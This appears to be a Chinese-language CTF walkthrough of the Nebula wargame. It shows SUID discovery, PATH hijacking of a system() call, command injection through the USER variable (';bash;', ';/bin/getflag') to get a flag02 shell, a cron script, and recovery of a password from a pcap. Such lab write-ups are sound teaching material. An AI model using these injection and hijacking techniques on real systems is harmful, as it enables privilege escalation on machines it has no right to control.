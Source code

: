# Nebula

## level00 -- 寻找SUID程序
用`level00`账户登录，找出由`flag00`拥有的 Set User ID的程序

### Solution
要将错误结果送到/dev/null，不然出现很多 Permission denied, 会影响找到该程序。
```sh
$ find / -user flag00 2>/dev/null
/bin/.../flag00
/home/flag00
/home/flag00/.bash_logout
/home/flag00/.bashrc
/home/flag00/.profile
/rofs/bin/.../flag00
/rofs/home/flag00
/rofs/home/flag00/.bash_logout
/rofs/home/flag00/.bashrc
/rofs/home/flag00/.profile
```

或者先查找flag00的uid。`cat /etc/passwd |grep flag00` 得到其uid为999，然后
```
$ find / -uid 999 2>/dev/null
```
也可以找到目标文件。
尝试了一下，`/rofs/bin/.../flag00`即为目标程序。
```sh
level00@nebula:~$ file /rofs/bin/.../flag00
/rofs/bin/.../flag00: setuid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.15, not stripped
level00@nebula:~$ ll /rofs/bin/.../flag00
-rwsr-x--- 1 flag00 level00 7358 2011-11-20 21:22 /rofs/bin/.../flag00*
level00@nebula:~$ /rofs/bin/.../flag00
Congrats, now run getflag to get your flag!
flag00@nebula:~$ getflag
You have successfully executed getflag on a target account
flag00@nebula:~$ which getflag
/bin/getflag
flag00@nebula:~$ file /bin/getflag
/bin/getflag: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.15, not stripped
flag00@nebula:~$ whoami
flag00
flag00@nebula:~$ id
uid=999(flag00) gid=1001(level00) groups=999(flag00),1001(level00)
flag00@nebula:~$
```
## level01 -- 攻击环境变量$PATH(可执行任意命令)
通过看源文件 level1.c
发现要要通过`system()`来执行shell命令。
```c
system("/usr/bin/env echo and now what?");
```
发现可以对`echo`命令做一下手脚。
在一个有权限的目录下新建一个名为echo的文件，
然后将当前目录加入到`PATH`环境变量的前面使得`/usr/bin/env`在找环境变量的时候
先找到我们自己写的这个echo命令(只是暂时生效所以不需要export)。
```
PATH=`pwd`:$PATH
```
然后在这个我们自己写的echo文件中写入**getflag**就可以以flag01的身份得到flag了。

由于/tmp目录对于任何用户都有完整的权限，虽然该目录下的文件在重启之后会消失，但我们可以在这个目录下操作。
或者也可以在/tmp目录下创建一个`/bin/getflag`的符号链接(该文件为root所拥有，其他用户没有执行权限)。
```
$ ln -s /bin/getflag /tmp/echo
```
然后将/tmp目录加入到环境变量的最前面，
```
$ PATH=/tmp:$PATH
```
这样可以让我们的这个echo程序优先于`/bin/echo`程序执行。
## level02
查看源文件level02.c
发现
```c
char *buffer = NULL;

asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
        
system(buffer);
```
通过getenv函数获得指定的环境变量UUSER的值(USER变量的值是当前登录的用户名)
要从系统环境变量中得到$USER变量，再用asprintf函数将USER的值与其他字符串连接在一起并存放在buffer变量内，
最后通过system函数执行buffer中的内容，即执行`/bin/echo %s is cool`。
由于这里已经写死了。用`/bin/echo`这个可执行文件，所以我们不能对echo文件做手脚了。
然而这个$USER变量是我们可控的。
于是我们
```sh
USER=";bash;"
```
这样就已flag02的身份得到bash了.
```sh
level02@nebula:/home/flag02$ ./flag02
about to call system("/bin/echo level02 is cool")
level02 is cool
level02@nebula:/home/flag02$ echo $USER
level02
level02@nebula:/home/flag02$ USER=";bash;"
level02@nebula:/home/flag02$ echo $USER
;bash;
level02@nebula:/home/flag02$ ./flag02
about to call system("/bin/echo ;bash; is cool")

flag02@nebula:/home/flag02$ getflag
You have successfully executed getflag on a target account
```
然后就可以在flag02的shell里面执行`getflag`得到shell了。
或者直接
```sh
$ USER="test && /bin/getflag"
```
或者
```sh
$ USER=";/bin/getflag"
```
即以flag02的身份执行`/bin/echo;/bin/getflag`。
反正这个 $USER 变量是我们可控的，我们可以已flag02的身份执行任意字符串。
关于这里的`;` 和`&&`的区别。`;`表示执行完上一句紧接着执行下一句，而`&&`得在上一条命令执行成功之后再执行下一句。
## level03 -- 攻击计划任务(crontab)

```sh
for i in /home/flag03/writeable.d/* ; do
    (ulimit -t 5; bash -x "$i")
    rm -f "$i"
done
```
其中ulimit -t 5控制CPU时间不超过5秒，bash -x "$i"用于执行$i文件。执行完之后删除文件本身。

## level04 -- 绕过权限获得token

## level07
参考:
http://blog.yyx.me/posts/exploit-exercises-nebula-level-05-09.html
在`/home/flag07`目录下找到一个`capture.pcap`，所以拖出来到宿主机上用wireshark分析。跟踪TCP流，发现
`Password: backdoor...00Rm8.ate`
根据经验，一般16进制工具中.都是代表\0，就是字符串结尾（其实.表示不可读字符，一般在一堆字符串中时基本就是\0），所
以密码应该是backdoor。尝试登录，错误！于是在wireshark中吧TCP包切换到HEX显示，发现这段数据信息如下：
`
000000B9  62                                                 b
000000BA  61                                                 a
000000BB  63                                                 c
000000BC  6b                                                 k
000000BD  64                                                 d
000000BE  6f                                                 o
000000BF  6f                                                 o
000000C0  72                                                 r
000000C1  7f                                                 .
000000C2  7f                                                 .
000000C3  7f                                                 .
000000C4  30                                                 0
000000C5  30                                                 0
000000C6  52                                                 R
000000C7  6d                                                 m
000000C8  38                                                 8
000000C9  7f                                                 .
000000CA  61                                                 a
000000CB  74                                                 t
000000CC  65                                                 e
000000CD  0d                                                 .
`
![](img/屏幕快照 2016-11-12 下午7.40.33.png)
![](img/屏幕快照 2016-11-12 下午7.50.11.png)
![](img/屏幕快照 2016-11-12 下午7.50.16.png)
竟然是7F，查ASCII码表发现7F是Backspace（退格），0D是CR（回车），所以就按照这个顺序重新比划了下，
得到密码是backd00Rmate
